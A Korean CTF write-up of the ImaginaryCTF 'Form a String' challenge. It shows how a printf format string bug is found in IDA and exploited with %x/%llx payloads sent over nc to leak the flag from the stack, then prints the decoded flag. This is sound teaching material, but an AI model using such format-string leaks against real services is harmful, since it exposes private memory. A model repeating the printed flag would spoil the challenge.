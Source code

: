# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-16-51-47.png)

첨부파일

[Form_a_String.rar](https://github.com/2jinu/CTFnWargame/raw/main/CTF/ImaginaryCTF%20Round9/file/Form_a_String.rar)

# **Write-Up**

압축을 해제하면 pwn이라는 바이너리가 있고, IDA를 사용하여 수도코드로 바꾸면 다음과 같다.

![](images/2022-05-18-16-56-21.png)

22번 줄에서 printf에 인자로 변수를 그대로 넣었는데, 여기서 FSB(Format String Bug)가 터진다.

![](images/2022-05-18-16-56-30.png)

IDA의 RemoteDebugger를 사용하여 while문으로 들어가서 fgets까지 실행한다.

```sh
=========================================================
[16] Accepting connection from 192.168.10.127...
Show us what you can do!
```

64bit 바이너리이기 때문에 %llx를 적당히 넣고 printf까지 진행해보면 "A"*8을 제외하고 10번째 부터 "41"*8이 시작된다.

```sh
AAAAAAAA,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
AAAAAAAA,5600f67e4491,0,0,7ffe8a23d7e0,0,7ffe8a23d968,100000000,0,5600f67e32a0,4141414141414141,6c252c786c6c252c
```

즉, while문에서 inpuf_buf의 시작점(rbp-90)이 10번째부터이다.

![](images/2022-05-18-16-57-06.png)

그러면 이제 flag의 시작점(rbp-50)까지의 차이(0x90 - 0x50)는 64byte임을 알 수 있다.

![](images/2022-05-18-16-57-15.png)

즉, 18번째 포맷부터는 flag값이 나온다. (9번 + 8번(input_buf크기인 64byte) + 1)

다만 input_buf가 받아들이는 크기는 64글자(=0x40)이므로 llx를 x로 바꾸고 쉼표도 최대한 줄여서 다음과 같이 입력한다. (%x는 17개)

```cmd
C:\nc\>nc64.exe 192.168.10.211 3000
Show us what you can do!
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x,%llx,%llx,%llx,%llx,%llx
f67e44910f67e44cc8a23d7e008a23d96800f67e32a078257825782578257825782578257825252c7825786c6c256c252c78a786c6c,7230667b66746369,317237735f74346d,5f3372345f73676e,6972705f68373177,a7d66746e
```

* binary를 소켓으로 바인딩 : * socat TCP-LISTEN:3000,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pwn"

flag값은 7230667b66746369,317237735f74346d,5f3372345f73676e,6972705f68373177,a7d66746e로 cyberchef에서 hex디코딩을 통해 값을 확인해 본다.
> [CyberChef](https://gchq.github.io/CyberChef)

![](images/2022-05-18-16-59-23.png)

뒤가 깨져서 나오는데 마지막 값의 자리수가 모자라서이다. a는 엔터 값인 0a로 바꿔서 값을 확인한다.

![](images/2022-05-18-17-02-04.png)

64bit이므로 8byte씩 뒤에서 부터 출력되기 때문에(stack에서 값을 가져오기 때문에) 8글자씩 잘라 거꾸로 뒤집으면 flag를 획득할 수 있다.

```python
[In]
print(''.join(reversed('r0f{ftci')),end='')
print(''.join(reversed('1r7s_t4m')),end='')
print(''.join(reversed('_3r4_sgn')),end='')
print(''.join(reversed('irp_h71w')),end='')
print(''.join(reversed('\n}ftn')))

[Out]
ictf{f0rm4t_s7r1ngs_4r3_w17h_printf}
```

# **FLAG**

**ictf{f0rm4t_s7r1ngs_4r3_w17h_printf}**